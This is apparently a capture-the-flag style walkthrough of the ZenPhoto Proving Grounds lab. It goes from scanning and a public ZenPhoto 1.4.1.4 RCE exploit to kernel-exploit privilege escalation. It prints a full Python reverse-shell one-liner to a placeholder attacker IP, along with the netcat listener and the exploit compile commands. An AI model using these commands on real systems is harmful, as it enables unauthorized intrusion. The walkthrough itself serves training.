ZenPhoto is an intermediate Proving Grounds box, also rated as intermediate by the community. This machine is vulnerable to RCE, and we escalate privileges through a kernel exploit. The exploit itself involves `C` compilation so we'll install `gcc-multilib` to execute it properly.

`nmap` scan:

```
nmap <target machine> -sC -sV -sS -Pn -p-
```



Port `80` seems to be open, let's check it out:



Alright, maybe we can try brute forcing directories starting here with `dirsearch`:



Let's visit `/test`:



Can we find anything under Page Source?





Cool, found a service we can work with: `zenphoto version 1.4.1.4`.

It's possible that there are other paths under `/test` so we can try `dirsearch` again from there:



Let's try visiting `/zp-core` first:



We've landed at a login field. Resetting the password, trying default credentials and also `sqli` with `'` were all unsuccessful. Can enumerate `zenphoto version 1.4.1.4` on `Google`:





Downloading the exploit gives us this:



The exploit gives us Remote Code Execution which is great. Following what's highlighted, our input should be:

```
php <exploit file>.php <target ip> /<path>/
```

In this case, we're attacking `/test/`.



Reverse shells from `bash` and `php` do not work here, but one from `python` does. Here's an example:

```
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

You can find reverse shell generators from [revshells](https://www.revshells.com/).

The reason for doing this is to create a more stable shell. `zenphoto-shell#` has unpredictable behavior such as arrow keys not functioning normally or simple linux commands like `ls` and `cd` not working at all.

Before executing the `python` one-liner, we set up a `nc` listener on port `443` on our attacker machine:

```
nc -nlvp 443
```



Nice, shell got! `cd` into `/home` to retrieve `local.txt`:



Transfer `linpeas` to the target's `/tmp` folder and `chmod +x` the file once received.



Nothing really interesting found besides the version of the operating system. We can try `suggester` which can point us in the right direction. It can be found [here](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh) or can be downloaded like this:

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O suggester.sh
```



After using `chmod +x` on `suggester.sh`, we can run it:



Let's download `rds` using the `Download URL` provided:



The exploit is a `C` file which we're having trouble compiling. We can try other avenues and come back to this if needed. Let's Google the full operating system version of the target machine:





Once downloaded, we need to compile the file on our attacker machine. We may need to install the cross-architecture `C` header files with the following command:

```
sudo apt-get install gcc-multilib -y
```

It's recommended that we compile on the target system. `wget` the exploit to the target in `/tmp`, then we compile like this:

```
gcc 15285.c -i 15285 -m32
```

The `-m32` is important as it allows us to compile the file into a compatible format for 32 bit systems like the target.

We can check the architecture with:

```
uname -m
```



All that's left is to `chmod +x` the file and then execute it:



Rooted! :partying_face:
